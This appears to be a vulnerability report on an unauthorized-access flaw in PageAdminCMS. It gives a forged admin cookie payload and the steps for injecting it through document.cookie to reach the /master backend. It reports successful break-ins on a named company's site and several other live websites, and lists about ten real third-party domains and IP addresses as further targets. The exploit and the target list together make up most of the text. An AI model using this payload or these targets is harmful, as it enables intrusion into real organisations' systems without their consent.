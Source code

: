 # Report on Unauthorized Access Vulnerability of Guangzhou Qidun Electronics Co., Ltd
Use fofa asset collection to enter the company's website: http://www.jinglingonline.com/index.aspx
![图片](https://user-images.githubusercontent.com/101256869/198198327-ee982682-9c69-4462-a968-d79d0ac23c32.png)
PageAdminCMS is used, which has an unauthorized access vulnerability.
After testing, the website uses the default management background/master
![图片](https://user-images.githubusercontent.com/101256869/198198475-1c656e75-dd93-47ee-a0ac-4c1c2c2f4304.png)
Design exp:

Master=1&LoginProcess=1&UserName=admin&LOginDate=1&Valicate=12b36e45c2df117d12a068814d826283f9c32f845e1589142208628b13f&Permissions=1

And then in the control of the input document.cookie="exp", then at the end of 35775; index.aspx. 
![图片](https://user-images.githubusercontent.com/101256869/198198554-360541df-3366-453f-973f-9a8490a90ac2.png)
Successfully entered the background
![图片](https://user-images.githubusercontent.com/101256869/198198585-82a8f9a0-2b7d-438b-be1a-f7cea7b1ad83.png)
Other assets:
http://106.14.6.92:8060/
http://101.200.152.103/index.aspx?lanmuid=63&sublanmuid=654
http://www.jnboiler.com/（PageAdminCMS3.0还存在SQL注入）
http://139.224.104.30:8082/
http://www.sxgczx.com/index.aspx
https://www.hugetech.com.cn/
http://localhost/e/master/login.aspx（http://www.nthssoft.com/e/）
http://122.112.240.202/e/master/login.aspx（http://www.sdhztx.com.cn/e/）
http://111.21.183.230:12345/e/master/login.aspx
http://sz-zr.com/e/master/login.aspx

Now test the other three assets

http://sz-zr.com/e/master/login.aspx
![图片](https://user-images.githubusercontent.com/101256869/198198678-40a72f9f-de9b-4a00-95dc-af8006ed6986.png)
![图片](https://user-images.githubusercontent.com/101256869/198198689-dba5b8b4-5186-4709-b236-ac283ba05fc7.png)
http://yixiong.cc:8082/e/master/login.aspx

The vendor has fixed the vulnerability

http://www.dibot.cn/master/login.aspx 
![图片](https://user-images.githubusercontent.com/101256869/198198744-dd70351e-1dcb-44a9-aad7-280257085477.png)

![图片](https://user-images.githubusercontent.com/101256869/198198760-8ea5d1b1-95f3-401a-82f2-7fe0dc05234d.png)

And successful

http://www.webwuxi.cn/master/login.aspx 
![图片](https://user-images.githubusercontent.com/101256869/198198803-5b4f8065-e943-44e4-a2e1-ecd9c9ed4cee.png)

![图片](https://user-images.githubusercontent.com/101256869/198198822-535e5435-6883-4599-9d21-5e09d4e6fe13.png)
